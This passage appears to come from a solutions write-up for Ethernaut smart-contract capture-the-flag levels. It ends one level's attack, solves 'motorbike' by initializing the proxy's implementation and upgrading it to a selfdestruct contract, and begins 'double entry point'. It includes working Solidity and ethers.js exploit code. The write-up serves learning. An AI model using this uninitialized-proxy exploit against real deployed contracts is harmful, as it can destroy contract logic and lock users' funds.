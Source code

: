 ```javascript
const attack = await WalletAttack.deploy(INSTANCE_ADDRESS, {value: ethers.utils.parseEther("0.001")})
await attack.deployed();
console.log(await proxy.admin());
```

---

## motorbike

Goal is to selfdestruct the engine. Implementation contract (Engine) has couple of storage variables `upgrader` and `horsepower`. One interesting function here is `upgradeToAndCall` which has a delegate call. This gave me idea to create a new contract with `selfdestruct` has delegate call to selfdestruct, but before that we need to become upgrader. Since `initialize` is called from `Motorbike`, `upgrader` and `horsePower` are stored in storage layout of `Motorbike` not `Engine`. 

We can get the engine's address, call initialize again to become upgrader and rest is easy.

```solidity
contract EngineAttack {
    function destruct(address payable to) external {
        selfdestruct(to);
    }
}
```

```javascript
storage = await ethers.provider.getStorageAt(INSTANCE_ADDRESS, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc", "latest");

logicAddress = `0x${storage.slice(2).slice(24, 64)}`;

engine = Engine.attach(logicAddress);

tx = await engine.initialize();
await tx.wait()

const EngineHack = await hre.ethers.getContractFactory("EngineAttack");
engineHack = await EngineHack.deploy()
await engineHack.deployed()


tx = await engine.upgradeToAndCall(engineHack.address, EngineHack.interface.encodeFunctionData('destruct', [owner.address]))
await tx.wait();
```

--- 

## double entry point

This challenge has a bunch of contracts. After enough staring, I understood what's happening and after checking the validation code from ethernaut's repository, clearing this challenge was pretty easy. 

